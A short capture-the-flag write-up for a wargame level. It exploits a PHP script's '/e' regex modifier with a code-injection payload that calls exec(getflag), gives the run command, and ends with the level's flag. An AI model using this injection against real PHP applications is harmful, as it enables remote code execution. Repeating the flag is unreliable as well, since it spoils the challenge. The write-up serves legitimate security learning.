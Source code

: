 # Level 06

This exercice is about exploiting a php script that uses `/e` in a regular expressions which allows us to execute code.

`echo '[x {${exec(getflag)}}]' > /tmp/tata`
<br>
`./level06 /tmp/tata`

**Flag:** `wiok45aaoguiboiki2tuin6ub`
